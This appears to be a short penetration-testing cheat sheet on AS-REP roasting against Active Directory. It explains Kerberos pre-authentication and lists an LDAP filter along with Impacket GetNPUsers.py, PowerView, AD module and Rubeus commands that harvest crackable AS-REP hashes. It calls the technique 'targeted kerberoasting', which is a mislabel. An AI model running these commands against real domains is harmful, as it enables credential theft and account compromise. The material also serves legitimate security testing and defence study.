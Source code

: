- Also known as targeted kerberoasting.
- In kerberos, pre-authentication is required for users. 
- Pre-Authentication is when a user sends the timestamp encrypted with it's kerberos key to request TGT (AS-REQ)
- In some cases, some users may have the `DONT_REQUIRE_PREAUTH` flag set. These users don't need to encrypt their timestamp with their kerberos key, hence anyone can create AS-REQ as that user and receive AS-REP encrypted with these users's key.
- AS-REProast involves impersonating these users and receiving the AS-REP. The AS-REP can be cracked offline to recover the password of the user.
- LDAP filter to query users without pre-authentication.
```ldap
(&(samAccountType=805306368)(userAccountControl:1.2.840.113556.1.4.803:=4194304))
```
- Impacket's GetNPUsers.py script can be used to get the users without pre-authentication and get their AS-REP data.
```bash
# Authenticated bind. Can fetch users automatically.
GetNPUsers.py 'mydomain.local/drdragon:Password!!' -dc-ip <IP> -outputfile asrep-hashes.txt

# Supply username
GetNPUsers.py 'mydomain.local/' -usersfile username.txt -dc-ip <IP> -outputfile asrep.hash
```
- Powerview
```powershell
Get-DomainUser -PreauthNotRequired -Verbose
```
- Active Directory Module
```powershell
Get-ADUser -Filter {DoesNotRequirePreAuth -eq $True} -Properties DoesNotRequirePreAuth
```
- Rubeus
```powershell
.\Rubeus.exe asreproast
```